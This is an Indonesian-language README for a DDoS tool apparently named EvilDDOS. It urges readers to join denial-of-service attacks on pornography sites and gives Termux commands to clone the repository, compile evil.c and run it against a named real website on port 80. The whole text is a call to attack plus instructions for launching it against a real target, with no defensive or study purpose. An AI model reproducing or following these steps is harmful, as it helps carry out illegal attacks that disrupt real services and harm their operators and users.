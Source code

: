 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM CYBER PHOENIX🙏

$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd evilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
